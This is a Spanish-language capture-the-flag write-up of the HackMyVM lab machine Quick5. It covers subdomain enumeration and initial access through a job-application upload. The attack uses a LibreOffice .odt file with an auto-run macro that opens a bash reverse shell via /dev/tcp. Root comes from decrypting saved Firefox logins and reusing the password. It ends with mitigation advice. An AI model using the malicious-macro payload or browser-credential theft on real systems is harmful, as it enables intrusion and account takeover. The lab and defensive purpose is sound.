

Writeup: Máquina Quick5 - HackMyVM
En este writeup resolveremos la máquina Quick5 de la plataforma HackMyVM. Empezando por la enumeración de una web con varios subdominios, conseguiremos acceso inicial aprovechándonos de un proceso de selección de personal en uno de los subdominios. La escalada de privilegios será a través de la recuperación de credenciales almacenadas por el navegador Firefox.
Reconocimiento Inicial
Empezamos haciendo un escaneo con nmap para descubrir los servicios expuestos:
$> nmap -p- --open -sSCV -n -Pn 192.168.0.27 -oN tcpScan
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 84:e8:9c:b0:23:44:41:29:ae:7d:0b:0f:fe:88:08:c0 (ECDSA)
|_ 256 44:82:b7:78:47:02:7e:b4:40:c7:6b:fd:70:68:c1:42 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Quick Automative - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Parece que el foothold tendrá que ser via web, vamos a centrarnos en el puerto 80. Acostumbro a usar whatweb para extraer tecnologías e información de cabecera:
$> whatweb http://192.168.0.27
http://192.168.0.27 [200 OK] Apache[2.4.52], Bootstrap[4], Country[RESERVED][ZZ], Email[book@quick.hmv,info@quick.hmv,tech@quick.hmv], Frame, HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.27], JQuery[3.4.1], Script, Title[Quick Automative - Home]
Obtenemos varios correos (book@quick.hmv, info@quick.hmv, tech@quick.hmv) y confirmamos el dominio quick.hmv. Decido visitar la página web para echarle un ojo y hay dos cosas que me llaman la atención:
- Se muestran los nombres de 8 empleados, nos serviría para construir un diccionario de posibles usuarios
- Existen dos formularios de contacto para enviar mensajes, donde podríamos probar inyecciones
Haciendo hovering sobre algunos apartados de la web, puedo ver los subdominios careers.quick.hmv y customer.quick.hmv. Parece que se hace uso de virtual hosting, por lo que podríamos fuzzear en busca de más subdominios. De momento incluyo careers y customer al /etc/hosts.
Al visitar customer.quick.hmv, se muestra el siguiente mensaje:
"This page is under maintenance due to a security incident."
Enseguida se me ocurre que puede existir un backdoor que nos permita el foothold inicial. Vamos a seguir con el reconocimiento, como hemos dicho antes, enumerando subdominios (realmente vhosts) con gobuster:
$> gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://quick.hmv -r --append-domain
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
careers.quick.hmv Status: 200 [Size: 13819]
customer.quick.hmv Status: 200 [Size: 2258]
employee.quick.hmv Status: 200 [Size: 2258]
===============================================================
Finished
===============================================================
Aparece un nuevo subdominio, employee.quick.hmv. Lo añado a /etc/hosts, pero al visitar la web muestra el mismo contenido que customer.quick.hmv.
Sigo trasteando la web y veo que en careers.quick.hmvpodemos aplicar a un puesto de trabajo. El formulario pide adjuntar dos archivos (currículum y carta), que pueden estar en formato .odt o .pdf. Podemos asumir que habrá alguien de la empresa revisando estos archivos, así que esto es lo mejor que tenemos hasta ahora como posible vector de entrada.
Acceso inicial
Hago un poco de investigación y encuentro el siguiente recurso que explica cómo crear una macro maliciosa en un archivo .odt que nos envíe una reverse shell.
Abrimos LibreOffice, escribimos cualquier cosa y guardamos el documento. Después creamos una macro para el documento con el siguiente contenido:
Sub Main
shell("bash -c 'bash -i >& /dev/tcp/192.168.0.43/443 2>&1'")
End Sub
Configuramos la macro para se ejecute automáticamente al abrir el archivo y guardamos el documento. Ahora simplemente preparamos el listener en nuestra máquina atacante y subimos el archivo malicioso. Tras unos momentos, obtenemos una shell como andrew, lo que nos permite leer la primera flag.
Escalada de Privilegios
Haciendo enumeración manual rutinaria del sistema, lanzo
grep -r "pass" / 2>/dev/null
pero lo cancelo al momento porque me arroja muchísimo output. Aún así, al principio del output veo algo que me llama la atención:

Un archivo /home/andrew/snap/firefox/common/.mozilla/firefox/ii990jpt.default/logins.json que contiene los campos encryptedUsername y encryptedPassword entre otros. Pruebo con hashid y hashcat sin ningún resultado, así que decido buscar en internet "firefox decrypt", lo que rápidamente me lleva al siguiente repo.
Al ejecutar la herramienta directamente, no encuentra profiles.ini en la ruta habitual (~/.mozilla/firefox). Buscando en el sistema los archivos .ini filtrando por el usuario andrew, localizamos la ruta real (resulta que Firefox está instalado vía Snap):
/home/andrew/snap/firefox/common/.mozilla/firefox/profiles.ini
Ejecutamos ahora con la ruta correcta:
$> ./firefox_decrypt.py /home/andrew/snap/firefox/common/.mozilla/firefox
Website: http://employee.quick.hmv
Username: 'andrew.speed@quick.hmv'
Password: 'SuperSecretPassword'
Probamos la contraseña para root y funciona! Máquina rooteada, obtenemos la flag final.
Detección y Mitigación
- Mensaje de mantenimiento revelando un incidente de seguridad previo — no exponer problemas de seguridad en avisos públicos
- Formulario de subida de documentos sin sandboxing — abrir archivos externos en un entorno aislado, nunca en un sistema con acceso a datos internos
- Macros habilitadas por defecto en documentos externos — deshabilitarlas o gestionar el documento de alguna forma para evitar la ejecución
- Credenciales de navegador (
logins.json) almacenadas — activar el cifrado adicional que ofrece Firefox (contraseña maestra) - Reutilización de contraseñas (root)